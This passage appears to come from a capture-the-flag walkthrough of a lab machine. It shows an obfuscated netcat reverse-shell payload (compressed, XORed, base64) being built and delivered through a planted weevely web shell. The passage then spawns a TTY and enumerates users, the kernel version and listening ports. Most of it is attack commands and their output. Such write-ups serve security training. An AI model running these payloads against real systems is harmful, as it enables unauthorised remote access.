 `nc -lnvp 4444`:
```          
listening on [any] 4444 ... ←
```

`./cmd_payload.py --cmd='system("nc -c /bin/bash 192.168.56.118 4444");'`:
```
Original command: system("nc -c /bin/bash 192.168.56.118 4444"); ←
Compressed command (bytes): b'x\x9c+\xae,.I\xcd\xd5P\xcaKV\xd0MV\xd0O\xca\xcc\xd3OJ,\xceP0\xb44\xd234\xb3\xd035\xd334\xb4P0\x01\x02%Mk\x00F\xc5\x0c&'
XORed command (bytes): b'K\xf8O\xc8\x1cJ|\xae\xe64\xae-f\xb4x5\xe3+\xae\xaa\xe3+\x7fO\xfd4T\xd2\x04\xb6\x06W\x80\xb4WS\xe3W\x01\xd7cTed\x15)^cu\xa1h@'
Base64 encoded payload: S/hPyBxKfK7mNK4tZrR4NeMrrqrjK39P/TRU0gS2BleAtFdT41cB12NUZWQVKV5jdaFoQA== ←
Final payload to use: b6e7a529b6c2S/hPyBxKfK7mNK4tZrR4NeMrrqrjK39P/TRU0gS2BleAtFdT41cB12NUZWQVKV5jdaFoQA==d598a771749b ←
```

`curl -X POST http://192.168.56.121/weevely.php7 -d 'b6e7a529b6c2S/hPyBxKfK7mNK4tZrR4NeMrrqrjK39P/TRU0gS2BleAtFdT41cB12NUZWQVKV5jdaFoQA==d598a771749b'`

```
connect to [192.168.56.118] from (UNKNOWN) [192.168.56.121] 58796 ←
```

![Victim: www-data](https://img.shields.io/badge/Victim-www%2D-data-64b5f6?logo=linux&logoColor=white)

`python3 -c 'import pty; pty.spawn("/bin/bash")' && stty raw -echo && fg; export TERM=xterm; stty rows $(tput lines) cols $(tput cols)`

`whoami`:
```
www-data ←
```

`uname -a`:
```
Linux wave 6.1.0-11-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-4 (2023-08-08) x86_64 GNU/Linux
```

`ls -alps /home`:
```
total 16
4 drwxr-xr-x  4 root  root  4096 Sep  4  2023 ./
4 drwxr-xr-x 18 root  root  4096 Sep  4  2023 ../
4 drwx------  3 angie angie 4096 Sep  5  2023 angie/ ←
4 drwx------  2 carla carla 4096 Sep  4  2023 carla/ ←
```

`ls -alps /home/angie`:
```
ls: cannot open directory '/home/angie': Permission denied ←
```

`ls -alps /home/carla`:
```
ls: cannot open directory '/home/carla': Permission denied ←
```

`ss -tunlp`:
```
Netid   State    Recv-Q   Send-Q     Local Address:Port     Peer Address:Port   Process                                                                         
udp     UNCONN   0        0                0.0.0.0:68            0.0.0.0:*                                                                                      
tcp     LISTEN   0        1024           127.0.0.1:3923 ←        0.0.0.0:*                                                                                    
tcp     LISTEN   0        1                0.0.0.0:1234          0.0.0.0:*       users:(("nc",pid=602,fd=3))                                                    
tcp     LISTEN   0        128              0.0.0.0:22            0.0.0.0:*                                                                                      
```
